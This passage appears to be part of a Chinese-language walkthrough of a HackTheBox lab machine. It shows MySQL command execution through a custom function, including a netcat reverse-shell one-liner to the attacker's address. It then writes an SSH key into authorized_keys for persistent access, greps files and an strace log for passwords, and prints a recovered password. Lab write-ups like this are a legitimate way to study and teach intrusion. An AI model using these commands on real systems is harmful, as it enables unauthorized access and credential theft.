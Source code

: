 再尝试一次能否获得shell

`mysql -u root --password=changethis -e "select exec_cmd('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 4444 >/tmp/f');"`

还是不可以

## user

尝试以mysql的用户查看sysadmin的用户目录

`mysql -u root --password=changethis -e "select exec_cmd('ls -la /home/sysadmin');"`

尝试以mysql的用户将我们的公钥写入mysql用户的ssh

先在kali生成ed25519加密的密钥，因为这样公钥会比较短

`ssh-keygen -t ed25519`

![]({{ site.url }}/assets/Compromised_207.assets/20201118215101164_1430129151.png)

![]({{ site.url }}/assets/Compromised_207.assets/20201118215317313_1543663633.png)

`mysql -u root --password=changethis -e "select exec_cmd('echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGb9BNGeFejggTK4yGK/NfcLRRyStxckmCWJz4cu+YvQ user@k41i > ~/.ssh/authorized_keys')";`

ssh 登陆

`ssh mysql@10.10.10.207`

![]({{ site.url }}/assets/Compromised_207.assets/20201118215537602_604740424.png)

成功登陆，但是不能获得user，还是需要横向提权到sysyadmin

![]({{ site.url }}/assets/Compromised_207.assets/20201118215631416_1979688564.png)

![]({{ site.url }}/assets/Compromised_207.assets/20201118220823655_1661552177.png)

不能上传辅助脚本，继续枚举文件

`find ~ |xargs grep -ri 'password' --color=always 2>/dev/null`

在枚举mysql的主文件夹时发现了一组新密码

![]({{ site.url }}/assets/Compromised_207.assets/20201118221745275_1977576898.png)

strace.dat 应该是strace命令生成的log

查看这个文件

`cat strace-log.dat | grep 'password='`

![]({{ site.url }}/assets/Compromised_207.assets/20201118222203023_530520067.png)

`3*NLJE32I$Fe`

尝试密码复用

